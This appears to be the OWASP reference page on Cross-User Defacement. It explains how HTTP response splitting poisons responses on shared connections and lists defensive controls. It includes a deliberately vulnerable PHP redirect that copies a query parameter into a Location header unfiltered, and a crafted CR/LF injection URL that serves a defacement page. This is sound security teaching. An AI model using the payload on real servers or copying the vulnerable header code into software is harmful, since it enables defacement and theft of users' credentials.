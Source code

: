 ```yaml
---

layout: col-sidebar
title: Cross-User Defacement
author: 
contributors: Zhong, Rezos, KristenS
permalink: /attacks/Cross-User_Defacement
tags: attack, Cross-User Defacement

---
```


{% include writers.html %}

## Description

An attacker can make a single request to a vulnerable server that will
cause the sever to create two responses, the second of which may be
misinterpreted as a response to a different request, possibly one made
by another user sharing the same TCP connection with the sever. This can
be accomplished by convincing the user to submit the malicious request
themselves, or remotely in situations where the attacker and the user
share a common TCP connection to the server, such as a shared proxy
server. In the best case, an attacker can leverage this ability to
convince users that the application has been hacked, causing users to
lose confidence in the security of the application. In the worst case,
an attacker may provide specially crafted content designed to mimic the
behavior of the application but redirect private information, such as
account numbers and passwords, back to the attacker.

This attack is rather difficult to carry out in the real environment.
The list of conditions is long and hard to accomplish by the attacker.

Cross-User Defacement attack is possible because of [HTTP Response
Splitting]({{ site.baseurl }}/attacks/HTTP_Response_Splitting) and flaws in the web
application. It is crucial from the attacker's point of view that the
application allows for filling the header field with more than one
header using CR (Carriage Return) and LF (Line Feed) characters.

## Risk Factors

TBD

## Examples

We have found a web page, which gets service name from the "page"
argument and then redirects (302) to this service.

Example: <http://testsite.com/redir.php?page=http://other.testsite.com/>

And exemplary code of the redir.php:

```
rezos@spin ~/public_html $ cat redir.php
<?php
header ("Location: " . $_GET['page']);
?>
```

Crafting appropriate requests:

```
/redir.php?page=http://other.testsite.com%0d%0aContent-
Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-
Type:%20text/html%0d%0aContent-
Length:%2019%0d%0a%0d%0a<html>deface</html>
```

HTTP server will respond with two (not one!) following headers:

1

```
HTTP/1.1 302 Moved Temporarily
Date: Wed, 24 Dec 2003 15:26:41 GMT
Location: http://testsite.com/redir.php?page=http://other.testsite.com
Content-Length: 0
```

2

```
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 19
<html>deface</html>
```

If user shares a TCP connection (e.g. proxy cache) and will send a
request:` /index.html`
the response 2 will be sent to them as an answer to their request.

This way it was possible to replace the web page, which was served to
the specified user.

More information can be found in one of the presentations under
<http://wiki.owasp.org/images/1/1a/OWASPAppSecEU2006_HTTPMessageSplittingSmugglingEtc.ppt>

## Related [Attacks]({{ site.baseurl }}/attacks/)

- [HTTP Response Splitting]({{ site.baseurl }}/attacks/HTTP_Response_Splitting)
- [Cache Poisoning]({{ site.baseurl }}/attacks/Cache_Poisoning)

## Related [Controls]({{ site.baseurl }}/controls/)

- Validation of the input data (CR and LF).
- Forbid HTTP headers nesting in one header's field.
